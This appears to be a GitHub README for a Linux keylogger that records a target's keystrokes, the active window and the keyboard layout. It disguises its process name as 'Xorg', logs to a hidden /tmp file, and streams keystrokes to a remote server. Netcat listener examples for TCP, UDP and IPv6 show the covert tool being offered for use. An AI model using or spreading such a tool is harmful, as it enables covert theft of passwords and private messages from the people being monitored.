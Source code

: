 # Simple_Local&Remote_Keylogger

##DESCRIPTION:

- Simple keylogger that runs on Linux either locally or remotely.
- It shows the active window on which the target is writing.
- Keys are mapped on US keyboard.
- It shows the keyboard layout(e.g.: us, it, colemak, etc..).
- Process name is renamed as "Xorg".
- It works with both TCP and UDP and with ipv6 too.
- It must be run as root.

##USAGE:
```
#./slrk [OPTIONS]
```
##OPTIONS:
```
-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>
```
##EXAMPLE:

[TCP]
```
Server$ nc -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
[UDP]
```
Server$ nc -u -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
[IPv6]
```
Server$ nc -6 -lvp 8888 > logger.txt
Client#./slrk -m remote -a ::1 -p 8888
```	
